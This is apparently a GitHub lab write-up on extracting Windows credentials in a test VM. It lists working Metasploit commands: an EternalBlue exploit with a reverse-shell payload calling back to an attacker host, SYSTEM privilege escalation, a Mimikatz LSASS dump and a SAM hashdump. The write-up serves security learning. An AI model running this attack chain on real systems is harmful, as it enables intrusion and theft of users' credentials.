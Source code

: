 # Extracting Credentials Using Meterpreter and Mimikatz

 ### [YouTube Demonstration](https://youtu.be/Je-QIsPMlzk)
 
## Background

In cybersecurity, understanding how attackers extract credentials from compromised systems is crucial for developing effective defense strategies. Meterpreter, a powerful post-exploitation tool, allows attackers to interact with compromised Windows systems and perform various tasks, including extracting sensitive data like password hashes. Mimikatz, a popular credential extraction tool, can be used through Meterpreter to dump password hashes from LSASS memory and the SAM database.

## Project Overview

In this project, I used Meterpreter to obtain a session on a Windows 7 virtual machine and then used Mimikatz to dump credentials from the LSASS memory and the SAM database. The aim was to demonstrate how attackers use Meterpreter and Mimikatz for credential extraction and to gain practical experience in post-exploitation activities.

## Steps Taken

1. **Gain Meterpreter Session**:
   - Launched Metasploit and used an appropriate exploit to gain a Meterpreter session on the Windows 7 virtual machine.

    ```plaintext
    msfconsole
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOST <target_ip>
    set payload windows/meterpreter/reverse_tcp
    set LHOST <your_ip>
    set LPORT <your_port>
    exploit
    ```

2. **Escalate Privileges to SYSTEM**:
   - Used the `getsystem` command within the Meterpreter session to escalate privileges to SYSTEM level.

    ```plaintext
    getsystem
    ```

3. **Verify Privileges**:
   - Used the `getuid` command to display the current user's privileges and confirmed that SYSTEM privileges were obtained.

    ```plaintext
    getuid
    ```

4. **Extract Credentials from LSASS**:
   - Used Mimikatz commands within the Meterpreter session to extract usernames and password hashes from the LSASS memory.

    ```plaintext
    load mimikatz
    mimikatz_command -f sekurlsa::logonpasswords
    ```

5. **Dump Password Hashes from SAM Database**:
   - Used the `hashdump` command in Meterpreter to dump password hashes from the SAM database.

    ```plaintext
    hashdump
    ```

## Validation

- Verified that the `getuid` output indicated SYSTEM privileges.
- Successfully obtained credentials from the LSASS process using Mimikatz.
- Confirmed password hashes were obtained from the SAM database using the `hashdump` command.

## Learning Objectives Achieved

- **Credential Extraction**: Gained hands-on experience in using Meterpreter and Mimikatz to extract credentials from compromised systems.
- **Post-Exploitation**: Understood how attackers use post-exploitation tools to perform advanced tasks like credential theft.

